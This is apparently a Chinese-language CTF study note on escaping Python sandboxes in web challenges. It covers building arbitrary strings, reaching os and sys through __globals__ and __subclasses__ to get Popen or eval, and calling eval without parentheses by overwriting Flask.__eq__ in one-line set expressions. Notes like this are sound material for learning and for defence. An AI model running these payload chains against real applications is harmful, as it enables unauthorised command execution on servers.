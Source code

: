 tags:: [[CTFWEB/Python]]

- # 套路
	- 首先考虑构造任意字符串
	- 然后考虑拿到命令执行相关的函数
		- 考虑找到相关的模块，并从模块中拿到需要的函数
		- 也可以考虑找到`eval`函数
	- 最后把字符串传给函数即可
- # 构造至少一个字符串
	- 有时需要先通过某些方式找到一个字符串（比如说`sys.base_exec_prefix`或者`sys.version_info.releaselevel`）
	- 然后用这个字符串作为键名拿到某个GET/POST参数（比如说`request.args.get(sys.base_exec_prefix)`）
	- `sys.builtin_module_names`中有一堆字符串
	  id:: 652b6f8a-e0b1-47e3-9235-53bc76fd72ba
	- 拿到某个类的名字：`().__class__.__name__`
- # 构造任意字符串
	- 转义：`"\x61\x61"`和`"\u0061\u0061"`
	- f-string: `f"{chr(0x61)}"`
	- 如果是flask等HTTP环境
		- 考虑从GET/POST参数中，或者headers中拿取任意字符串
	- format: `"%d%d" % (100, 100)`
- # 根据一个模块找到任意模块
  id:: 652b6ef7-8828-476a-90e6-69e7521fdf1b
	- 首先找到sys模块
		- 通过datetime模块：`datetime.sys`
		- 通过其他任意模块：`flask.__spec__.loader.__init__.__globals__['sys']`
	- 然后通过sys模块找到其他模块
		- 比如说找到os模块：`sys.modules['os']`
- # 找到危险的类
	- 通过任意对象：`[].__class__.__base__.__subclasses__()`
		- 从里面把`subclasses.Popen`之类的危险类找出来就可以实现命令执行
	- 从模块中拿到危险的类：参考上面 ((652b6ef7-8828-476a-90e6-69e7521fdf1b))
- # 找到eval函数
	- 通过任意模块：`flask.__spec__.loader.__init__.__globals__['__builtins__']['eval']`
	- 通过任意对象：
		- 首先可以使用`().__class__.__base__.__subclasses__()`拿到目标上的所有类
		- 这里某些类中的`__init__`函数中有`__globals__`这个属性，我们可以从`__globals__`属性中拿到`eval`
		- 假设这些类中的某一个标号为`xxx`，我们就可以
			- 通过`().__class__.__base__.__subclasses__()[xxx]`拿到这个类
			- 通过`().__class__.__base__.__subclasses__()[xxx].__init__.__globals__`拿到globals，这是一个字典，其中`globals['__builtins__']['eval']`就是我们需要的eval函数
		- 记对应类为`().__class__.__base__.__subclasses__()[xxx]`，其中xxx为一个数字
		- 如果你不确定哪些类的init函数中有eval，可以使用下面的脚本（在你的机器上执行即可）
			- ```python
			  s = ().__class__.__base__.__subclasses__()
			  for i, t in enumerate(s):
			      try:
			          print(t, t.__init__.__globals__['__builtins__']['eval'])
			      except:
			          pass
			  ```
- # 实现函数调用
	- 有时候括号被禁用
	- 通过魔术方法实现函数调用
		- 比如说对Flask类动手脚
			- ```python
			  # 比如说题目中有一个app变量，其类型是Flask
			  from flask import Flask
			  app = Flask(__name__)
			  # 然后我们可以控制一个变量为任意字符串
			  name = "xxx" 
			  # 我们可以污染Flask.__eq__这个魔术方法
			  Flask.__eq__ = eval
			  # 然后调用Flask.__eq__
			  app == name # 这里的name就会被当成参数传给eval
			  ```
		- 用一些技巧将上面的代码压缩成一行
			- python中for可以用于赋值：`Flask.__eq__ = eval`等价于`{1 for Flask.__eq__ in {eval, }}`
			- python可以将多个表达式放在一个set中，表达式会依次执行
			- ```python
			  from flask import Flask
			  app = Flask(__name__)
			  name = "xxx"
			  # 下面这个鬼东西和上面的两行语句等价，直接eval就行
			  {{1 for Flask.__eq__ in {eval}}, {app == name}}
			  ```
		- finalize_request